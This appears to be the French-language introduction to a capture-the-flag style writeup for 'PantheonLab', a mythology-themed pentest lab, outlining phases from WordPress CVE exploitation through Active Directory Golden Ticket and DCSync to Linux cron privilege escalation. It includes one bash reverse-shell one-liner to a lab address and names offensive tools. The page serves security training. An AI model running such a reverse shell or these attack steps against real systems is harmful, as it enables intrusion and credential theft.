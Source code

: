 # Introduction au Writeup

!!! danger "⚠️ Avertissement - Copier n'est pas apprendre"
    **Ce writeup est fourni à des fins éducatives uniquement !**
    
    🎯 **Recommandation forte** : Essayez d'abord de résoudre le lab par vous-même avant de consulter cette solution.
    
    📚 **Pourquoi ?** 
    - Les **vraies compétences** se développent en cherchant, en échouant, et en recommençant
    - Copier-coller ne vous apprendra **rien de durable**
    - La **satisfaction** de résoudre un défi par soi-même est incomparable
    - En cybersécurité, **l'adaptabilité** est plus importante que la mémorisation
    
    🏆 **Rappelez-vous** : Il n'y a aucune récompense à la fin de ce lab, si ce n'est les **compétences et connaissances** que vous aurez acquises. Autant que ce soit par votre propre effort !
    
    💡 **Utilisez ce writeup comme** :
    - Une **validation** de votre approche après avoir trouvé
    - Une **aide** quand vous êtes vraiment bloqué (eviter cette page car elle résumer beaucoup de choses simultanément.)
    - Une **source d'apprentissage** pour comprendre les techniques

## 🎯 Objectif du Lab

Ce writeup détaille la résolution complète du lab PantheonLab, un environnement de pentest inspiré de la mythologie grecque. L'objectif est de démontrer une méthodologie complète d'audit de sécurité, de l'énumération initiale jusqu'à l'obtention des privilèges administrateur sur toutes les machines.

## 🏛️ Contexte du Scénario

Dans l'univers de PantheonLab, les dieux de l'Olympe ont décidé de mettre en place des jeux afin de permettre à un mortel de se hisser au-dessus des autres et de les rejoindre au Panthéon. Cependant, un dieu, Hermès, s'agace dans l'ombre de n'être que le messager. Il a introduit des vulnérabilités pour s'approcher discrètement des dieux — des vulnérabilités que vous devrez identifier et exploiter afin de compromettre entièrement cet environnement.

### Machines Cibles

| Machine | IP | Rôle |
|---------|----|------|
| **Olympe** | 192.168.56.10 | Serveur Linux/WordPress |
| **DC01** | 192.168.56.11 | Contrôleur de domaine  |
| **Enfers** | 192.168.56.12 | Serveur membre |

## 🔍 Méthodologie d'Attaque

### Phase 1 : Reconnaissance
- **Énumération réseau** : Découverte des machines et services
- **Énumération web** : Analyse du site WordPress
- **Recherche de vulnérabilités** : Identification des vecteurs d'attaque

### Phase 2 : Exploitation Initiale
- **Exploitation WordPress** : Exploitation de CVE
- **Obtenir un shell** : Accès initial sur Olympe
- **Élévation de privilèges** : Accès à utilisateur hermes

### Phase 3 : Lateral Movement
- **Énumération Active Directory** : Découverte du domaine
- **Exploitation des credentials** : Utilisation des comptes trouvés
- **Accès aux machines Windows** : Pivot vers DC01 

### Phase 4 : Compromision du domaine
- **Escalade de privilèges** : Obtenir l'accès administrateur
- **Accès aux machines Windows** : Pivot vers ENFERS 
- **Golden Ticket** : Contrôle total du domaine
- **DCSync** : Extraction des hashes du domaine

### Phase 5 : Escalade de privilège linux
- **Password Reused** : Connexion en tant que hera sur la machine linux
- **Exploitation** : Insecure cron jobs
- **Escalade de privilèges** : Obtenir l'accès root

## 🛠️ Outils Utilisés

### Énumération
```bash
# Réseau
nmap 
netexec||nxc

# Web
wpscan 
gobuster

# Active Directory
netexec||nxc
rusthound
bloodhound
```

### Exploitation
```bash
# WordPress
CVE-2025-32118.py

# Reverse Shell
bash -c 'bash -i >& /dev/tcp/192.168.56.1/9001 0>&1'

# Active Directory
mimikatz.exe
rubeus.exe
SharpSuccessor.exe
GMSAPasswordReader.exe
```

## 📊 Progression Attendue

### Niveau 1 : Accès Initial
- [x] Énumération du réseau
- [x] Découverte du site WordPress
- [x] Identification de la vulnérabilité CMP Coming Soon
- [x] Exploitation et obtention d'un shell

### Niveau 2 : Élévation de Privilèges
- [x] Accès utilisateur hermes
- [x] Découverte des credentials SMB
- [x] Accès au domaine Active Directory

### Niveau 3 : Lateral Movement
- [x] Énumération complète du domaine
- [x] Découverte des utilisateurs et groupes
- [x] Exploitation des vulnérabilités Kerberos

### Niveau 4 : Contrôle Total
- [x] Escalade vers administrateur
- [x] Création de Golden Ticket
- [x] DCSync du domaine
- [x] Privesc Linux


## ⚠️ Avertissements Importants

!!! warning "Environnement Contrôlé"
    Ce lab est conçu pour l'apprentissage dans un environnement isolé. Ne jamais tester ces techniques sur des systèmes de production sans autorisation.

!!! info "Légalité"
    L'utilisation de ces techniques doit toujours respecter les lois locales et les autorisations appropriées.

!!! tip "Bonnes Pratiques"
    Documentez chaque étape, prenez des captures d'écran, et comprenez le "pourquoi" derrière chaque technique.

## 🎯 Objectifs d'Apprentissage

### Compétences Techniques
- **Énumération web avancée** : WordPress, plugins, vulnérabilités
- **Exploitation Active Directory** : Kerberos, DCSync, Golden Ticket
- **Lateral movement** : Pivot entre machines
- **Privilege escalation** : Windows et Linux

### Compétences Méthodologiques
- **Approche structurée** : Méthodologie de pentest
- **Documentation** : Writeup professionnel
- **Résolution de problèmes** : Debugging et troubleshooting
- **Pensée critique** : Analyse des vulnérabilités

## 📚 Ressources Complémentaires

### Documentation Technique
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [HackTricks Active Directory](https://book.hacktricks.xyz/pentesting/pentesting-active-directory)
- [BloodHound Documentation](https://bloodhound.readthedocs.io/)
- [The Hacker Recipes](https://www.thehacker.recipes/)
- [The Hacker Recipes](https://www.thehacker.recipes/)
- [akamai/Badsuccessor](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)


---

*Que la sagesse d'Athéna vous guide  !* ⚡🏛️ 
